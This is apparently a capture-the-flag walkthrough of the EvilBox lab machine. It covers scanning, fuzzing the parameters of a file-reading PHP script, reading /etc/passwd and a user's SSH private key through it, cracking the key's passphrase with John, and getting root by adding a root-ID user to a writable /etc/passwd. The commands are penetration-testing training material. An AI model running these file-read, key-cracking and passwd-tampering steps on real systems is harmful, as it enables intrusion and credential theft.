# nmap

- 22 - ssh
- 80 - http apache



# gobuster

> Secret is suspicous.



## main

> Apache2 default page



> It's good practice to view source and check for comments, in this case there's nothing.

## robots.txt



## secret



> Let's run another discovery on secret, since there is nothing else.



> evil.php, quite an obvious way in.



> Hmm, could be some rce already, let's try some common command ones.

    http://evilbox.pg/secret/evil.php?command=id

    http://evilbox.pg/secret/evil.php?cmd=id

Nothing... We need to find the parameter used, or else it's sort of useless.

> Let's fire  up Burp and do some fuzzing, 

* param fuzzing with "id"
* param fuzzing with "/etc/passwd"

> Since my Burp intruder is throttled due to CE version, I'll do wfuzz instead.

> param fuzzing with value "id"

    wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt --hl 0 'http://evilbox.pg/secret/evil.php?FUZZ=id'



> param fuzzing with value "/etc/passwd"

    wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt --hl 0 'http://evilbox.pg/secret/evil.php?FUZZ=/etc/passwd'



> Great, we know the parameter now, as well as that it reads files.

    http://evilbox.pg/secret/evil.php?command=/etc/passwd



> we see that mowree is a user, let's try and get his ssh

    http://evilbox.pg/secret/evil.php?command=/home/mowree/.ssh/id_rsa



it's encrypted, so we need to crack the passphrase:

    ssh2john id_rsa > hash.txt

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt



> Remember to change privs for id_rsa or else it's gonna get rejected

    chmod 600 id_rsa

> Now we can login as mowree



## user: Mowree

> we have our flag.

> Now we have to find a way to escalate our priviledges. Let's refer to our go to's:
* sudo -l
    * got nothing, however the system seems to be in Spanish?
* find / -perm /4000 2>/dev/null
    * Nothing...
* find / -writable 2>/dev/null
    * going through the list we notice something interesting tho.

            find / -writable 2>/dev/null   



> passwd is writable?!.. ok.

> Let's add a new user with root's ID, but first we need to generate a password

    openssl passwd password

## !!! TIP: Don't include your password in the syntax on actual systems, it'll be stored in  your history !!!

> Now we add the new user with root's ID

> Now we can switch users and we'll have root.

    su MythicalMoon
    >password



> root and flag proof:

